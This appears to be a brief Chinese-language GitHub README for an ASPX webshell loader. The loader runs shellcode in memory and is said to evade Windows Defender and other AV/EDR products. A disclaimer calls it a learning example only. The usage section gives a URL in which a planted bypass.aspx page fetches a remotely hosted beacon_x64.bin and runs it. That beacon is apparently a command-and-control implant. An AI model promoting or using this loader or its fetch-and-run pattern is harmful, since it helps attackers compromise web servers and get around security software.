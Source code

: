 





- ASPX内存执行shellcode,绕过Windows Defender（AV/EDR）


- 这只是个代码例子，目的是为了学习




## 使用

将shellcode远程托管到任意网站（URLB）

```
http://URLA/bypass.aspx?shellcodeURL=http://URLB/beacon_x64.bin
```



视频



<video src = "https://github.com/INotGreen/Webshell-loader/issues/1#issuecomment-1855244052"><video>

